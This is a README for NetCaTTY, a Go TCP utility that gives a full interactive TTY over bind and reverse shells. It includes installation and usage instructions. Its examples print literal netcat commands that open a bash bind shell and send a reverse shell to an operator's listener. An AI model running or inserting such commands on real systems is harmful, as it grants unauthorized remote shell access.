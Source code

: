 # NetCaTTY

A simple TCP socket utility that gives you a TTY.
Either by listening or by connecting.

## Why do I need a TTY?

SSH gives you a TTY. All of the keyboard shortcuts are passed to the remote
shell, such as Ctrl-C or Ctrl-Z.

## Examples

It should be noted that not only bash/sh work, but any type of interactive
terminal command, such as php or python.

Please don't hurt puppers or kitties with it!

### Bind shell

Target machine (with IP 192.168.1.1): `nc -e "/bin/bash -i" -lp 4444`

Your terminal: `./netcatty -a 192.168.1.1:4444`

### Reverse shell

Target machine: `nc -e "/bin/bash -i" 192.168.1.100 4444`

Your terminal (with IP 192.168.1.100): `./netcatty -l :4444`

## Installation

Compile it on your own:

```bash
git clone https://github.com/dzervas/netcatty
cd netcatty
go run netcatty.go -h
```

## Usage

```
Usage of ./netcatty:
  -a string
    	Listen/Connect address in the form of 'ip:port'.
    	Domains, IPv6 as ip and Service as port ('localhost:http') also work. (default ":4444")
  -l	Enable listening mode
```
